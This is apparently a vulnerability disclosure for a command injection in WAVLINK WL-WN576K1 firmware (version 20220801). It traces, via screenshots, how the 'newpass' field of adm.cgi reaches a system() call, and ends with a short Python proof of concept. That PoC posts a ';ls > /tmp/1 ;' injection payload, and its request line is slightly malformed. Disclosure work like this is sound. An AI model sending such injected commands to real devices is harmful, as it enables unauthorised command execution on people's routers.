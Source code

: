 # command injection

## WAVLINK_WL_WN576K1

version: 20220801

## Description:

There is a command injection in adm.cgi/set_sys_adm

## Source:

you may download it from : 

[WL-WN576K1 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/5ce8519bd8.html)

## Analyse:

![](1.png)

get value from newpass

![](2.png)

if value from SYSPASS is correct, get into else

![](3.png)

finally call system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = ';ls > /tmp/1  ;' + '\n'

r = requests.post(url, data={ 'page':'sysAdm', 'newpass': + payload,'SYSPASS':'yours'})
```
